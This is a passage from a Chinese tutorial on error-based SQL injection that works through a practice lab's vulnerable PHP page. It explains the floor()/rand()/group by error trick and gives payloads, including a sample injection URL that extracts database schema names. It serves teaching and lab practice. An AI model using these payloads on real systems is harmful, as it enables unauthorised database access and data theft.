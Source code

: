 ```php
    echo '<font size="5" color="#FFFF00">';	
    echo 'You are in...........';
    echo "<br>";
    echo "</font>";
  }
  else 
  {

    echo '<font size="3" color="#FFFF00">';
    print_r(mysql_error());
    echo "</br></font>";	
    echo '<font color= "#0000ff" font size= 3>';	

  }
}
else { echo "Please input the ID as parameter with numeric value";}

?>
```

这段代码，接收一个名为 "id" 的参数，并使用该参数从数据库中检索信息。如果能够检索到信息，则会输出 "You are in..........."；如果检索失败，则会输出一条错误消息。在每次运行时，代码还会将传入的 "id" 参数记录到 "result.txt" 文件中。


## 3.2、原理分析
数据库在执行SQL语句时，通常会先对SQL进行检测,如果SQL语句存在问题,就会返回错误信息。通过这种机制，可以构造恶意的SQL，触发数据库报错，而在报错信息中就存在着我们想要的信息。但通过这种方式，首先要保证SQL结构的正确性。

**报错注入的函数**：`floor()`、`extractvalue()`、`updatexml()`、`geometrycollection()`、`multipoint()`、`polygon()`、`multipolygon()`、`linestring()`、`multilinestring()`、`exp()`。

**最常用的报错函数**：`floor()`、`extractvalue()`、`updatexml()`。

**1、floor()函数**<br />基本格式：
```sql
and (select 1 from (select count(),concat((payload),floor (rand(0)2))x from information_schema.tables group by x)a)
```

解析：
```sql
floor(): 去除小数部分
rand(): 产生随机数
rand(x): 每个x对应一个固定的值，但是如果连续执行多次值会变化，不过也是可预测的
count:COUNT(column_name) 函数返回指定列的值的数目（NULL 不计入）;COUNT(*) 函数返回表中的记录数
```

floor()报错就是通过使`floor`，`count`，`group by`三个函数相遇发生错误从而达到报错注入的目的。`count（*）`和`group by`共同工作，首先系统会先建立一张虚拟表；`group by`会读取`rand`产生的随机数，将其插入的到虚拟表中并记录下次数当再次循环出现一个前面已经出现的随机数系统会再次插入可虚拟表的已经有了这就会出现问题，系统会抛弃多余的，从而出现报错的异常，从而达到报错注入的目的。

查看数据库
```sql
http://192.168.1.8/Less-5/?id=1'union select null,count(*),concat((select schema_name from information_schema.schemata limit 0,1),floor(rand()*2))as a from information_schema.tables group by a --+
```
![image.png](../../_img/02-Web安全/01-基础知识/1671092830887-4b120cf4-9c2f-4a6f-b1f7-a240f2379993.png)